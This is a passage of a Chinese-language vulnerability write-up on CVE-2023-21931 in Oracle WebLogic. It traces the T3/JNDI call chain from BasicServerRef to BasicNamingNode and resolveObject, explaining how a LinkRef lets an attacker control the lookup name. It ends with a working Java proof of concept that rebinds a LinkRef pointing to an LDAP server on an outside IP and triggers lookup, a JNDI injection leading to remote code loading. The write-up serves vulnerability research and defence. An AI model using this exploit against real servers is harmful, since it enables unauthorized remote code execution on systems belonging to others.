 这里的invoke又是BasicServerRef，通过 BasicServerRef 类中的 invoke() 方法解析传入数据

![image-20230629130540561](images/22.png)

对消息进行一些if判断后，调用RootNamingNode_WLSkel的invoke方法继续处理

![image-20230629131555888](images/23.png)

此时传入的是16，进入对应的分支

![image-20230629131636474](images/24.png)

通过反序列化获取传入的数据，调用RootNamingNode的lookup继续处理

![image-20230629131656012](images/25.png)

在超类的lookup方法继续处理

![image-20230629131808548](images/26.png)

![image-20230629131821673](images/27.png)

最后到了BasicNamingNode的lookup方法，此时调用getRest方法返回的为空，进入到if调用resolveObject方法，传入自定义信息（prefix，reference class，env）

![image-20230629132542103](images/28.png)

首先是判断判断obj是否实现了NamingNode接口，如果没有就调用WLNamingManager的getObjectInstance进行处理

![image-20230629132657241](images/29.png)

这里只要boundObject实现的是LinkRef即可实例化InitialContext调用起lookup方法

![image-20230629133020301](images/30.png)

![image-20230629133139391](images/31.png)

![image-20230629132953443](images/32.png)

可以看到，其实在实例化LinkRef的时候就能控制linkName

## 漏洞复现

```
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.LinkRef;
import java.util.Hashtable;

public class CVE_2023_21931 {
    public static void main(String[] agrs) throws Exception {
        String url = "t3://47.93.248.221:7001";
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";
        Hashtable ht = new Hashtable();
        ht.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        ht.put(Context.PROVIDER_URL, url); // 目标
        InitialContext c = new InitialContext(ht);
        LinkRef LR = new LinkRef("ldap://47.93.248.221:1389/qi0d1d");
        c.rebind("poc", LR);
        c.lookup("poc");
    }

}

```
